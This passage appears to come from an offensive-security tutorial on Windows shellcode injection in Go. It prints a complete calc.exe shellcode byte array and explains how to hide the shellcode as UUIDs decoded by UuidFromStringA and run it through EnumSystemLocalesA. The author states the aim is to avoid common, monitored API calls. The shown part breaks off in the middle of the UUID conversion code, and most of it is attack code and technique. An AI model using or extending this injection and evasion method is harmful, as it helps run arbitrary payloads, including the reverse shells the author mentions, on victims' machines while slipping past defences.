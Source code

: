 In this demo we'll be using a ***calc.exe*** shellcode instead of a reverse shell

> calc.exe shellcode in Golang format
```go
calc_shellcode := []byte{0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6a, 0x60, 0x5a, 0x68, 0x63, 0x61, 0x6c, 0x63, 0x54, 0x59, 0x48, 0x83, 0xec, 0x28, 0x65, 0x48, 0x8b, 0x32, 0x48, 0x8b, 0x76, 0x18, 0x48, 0x8b, 0x76, 0x10, 0x48, 0xad, 0x48, 0x8b, 0x30, 0x48, 0x8b, 0x7e, 0x30, 0x3, 0x57, 0x3c, 0x8b, 0x5c, 0x17, 0x28, 0x8b, 0x74, 0x1f, 0x20, 0x48, 0x1, 0xfe, 0x8b, 0x54, 0x1f, 0x24, 0xf, 0xb7, 0x2c, 0x17, 0x8d, 0x52, 0x2, 0xad, 0x81, 0x3c, 0x7, 0x57, 0x69, 0x6e, 0x45, 0x75, 0xef, 0x8b, 0x74, 0x1f, 0x1c, 0x48, 0x1, 0xfe, 0x8b, 0x34, 0xae, 0x48, 0x1, 0xf7, 0x99, 0xff, 0xd7, 0x48, 0x83, 0xc4, 0x30, 0x5d, 0x5f, 0x5e, 0x5b, 0x5a, 0x59, 0x58, 0xc3}
```

This technique uses `UuidFromStringA` API call from ***Rpcrt4.dll*** which can be used to decode shellcode as ***uuid*** and writing it to a heap pointer. In this way it doesn't use `WriteProcessMemory`.

It also uses `EnumSystemLocalesA` API call from ***kernel32.dll*** to resume and execute shellcode

At this point, if you have read my last post talking about `CreateRemoteThread` you may have noticed that all shellcode injection technique try to achieve this results:

- ***1.*** Allocate memory
- ***2.*** Write buffer
- ***3.*** Execute shellcode

As you can see the used functions change but the goal is the same so the key is doing this with uncommon API calls

# Code

First of all import necessary packages to interact with memory and Windows API like `unsafe` or `golang.org/x/sys/windows`

```go
package main

import (
  "os"
  "fmt"
  "log"
  "bytes"
  "unsafe"
  "encoding/binary"

  "golang.org/x/sys/windows"
  "github.com/google/uuid"
)
```

Before allocating any memory we should convert our shellcode to ***UUID***

```go
...

// Check shellcode length to add some zero
if 16 - len(shellcode) %16 < 16 {
  pad := bytes.Repeat([]byte{byte(0x90)}, 16-len(shellcode)%16)
  shellcode = append(shellcode, pad...)
}

var uuids []string
for i := 0; i < len(shellcode); i += 16 {
  var uuidBytes []byte

  buf := make([]byte, 4)
  binary.LittleEndian.PutUint32(buf, binary.BigEndian.Uint32(shellcode[i:i+4]))
  uuidBytes = append(uuidBytes, buf...)
```